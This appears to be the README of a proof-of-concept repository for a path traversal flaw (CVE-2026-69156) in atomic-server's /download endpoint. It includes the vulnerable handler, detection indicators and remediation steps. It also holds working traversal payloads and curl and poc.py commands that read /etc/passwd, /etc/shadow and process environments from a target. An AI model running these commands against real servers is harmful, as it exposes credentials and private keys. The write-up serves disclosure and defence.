

<div align="center">

# CVE-2026-69156

### atomic-server — Unauthenticated Path Traversal via /download


</div>

---

## Overview

atomic-server < 0.39.0 exposes a `/download` endpoint that maps the `internalId`
query parameter to a filesystem path without canonicalising it. An unauthenticated
attacker can supply `../` sequences to escape the data directory and read arbitrary
files accessible to the server process, including `/etc/passwd`, TLS private keys,
and application configuration files.

| Field | Value |
|---|---|
| **CVE** | CVE-2026-69156 |
| **CVSS 3.1** | `8.6 High` — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` |
| **CWE** | CWE-22 (Improper Limitation of a Pathname to a Restricted Directory) |
| **Affected** | atomic-server < 0.39.0 |
| **Patch** | v0.39.0 |
| **Auth Required** | None |
| **Disclosed** | 2026-11-19 |

---

## Vulnerability Details

The file download handler resolves `internalId` to a path without calling
`canonicalize()` or checking that the resulting path remains within the data root:

```rust
// VULNERABLE — server/src/routes/download.rs (pre-0.39.0)
pub async fn download_file(
    query: web::Query<DownloadQuery>,
    state: web::Data<AppState>,
) -> impl Responder {
    let path = state.config.store_path.join(&query.internal_id); // CWE-22
    // No canonicalize(), no prefix check
    match tokio::fs::read(&path).await {
        Ok(bytes) => HttpResponse::Ok().body(bytes),
        Err(_) => HttpResponse::NotFound().finish(),
    }
}
```

Traversal payload: `GET /download?internalId=../../../../etc/passwd`

---

## Attack Flow



---

## PoC Usage

### Setup

```bash
pip install -r requirements.txt
```

### Scenario 1 — Read /etc/passwd

```bash
python poc.py -u https://atomicserver.corp --file /etc/passwd
```

### Scenario 2 — Read multiple files

```bash
python poc.py -u https://atomicserver.corp \
  --file /etc/passwd \
  --file /etc/shadow \
  --file /proc/self/environ \
  -o files.json
```

### Scenario 3 — Fingerprint only

```bash
python poc.py -u https://atomicserver.corp --check-only
```

### Manual curl reproduction

```bash
curl -sk "https://TARGET/download?internalId=../../../../etc/passwd"
curl -sk "https://TARGET/download?internalId=/etc/passwd"
```

### Available flags

| Flag | Description |
|---|---|
| `-u / --url` | Target atomic-server URL |
| `--file PATH` | Absolute path to read (repeatable) |
| `--wordlist FILE` | File of paths to try (one per line) |
| `--traversal-depth INT` | Max `../` depth to try (default: `6`) |
| `--check-only` | Fingerprint only, no file read |
| `--proxy URL` | HTTP proxy |
| `--insecure` | Disable TLS verification |
| `-o / --output FILE` | Save exfiltrated files and results to JSON |
| `--timeout INT` | Request timeout (default: `15`) |
| `-v / --verbose` | Verbose output |

---

## Detection

| Indicator | Notes |
|---|---|
| `GET /download?internalId=` with `../` or absolute path | WAF / access log rule |
| Requests for `/etc/passwd`, `/etc/shadow`, `/proc/self/environ` | SIEM alert |
| 200 responses from `/download` for paths outside store directory | Application-level monitoring |

---

## Impact

An unauthenticated attacker can read any file accessible to the atomic-server
process, including SSH private keys, TLS certificates, database configuration,
and `/etc/shadow` (if running as root or with appropriate permissions).

---

## Remediation

| Action | Detail |
|---|---|
| **Upgrade** | Update to atomic-server >= 0.39.0 |
| **Canonicalise** | Use `std::fs::canonicalize()` and verify the result starts with the store root |
| **Least privilege** | Run atomic-server as a dedicated low-privilege user |

---

## References

- [atomic-server v0.39.0 release notes](https://github.com/atomicdata-dev/atomic-server/releases/tag/v0.39.0)
- [CWE-22: Path Traversal](https://cwe.mitre.org/data/definitions/22.html)

---

> **Disclaimer:** Published for authorised security research only. Use exclusively
> on systems you own or have explicit written permission to test.
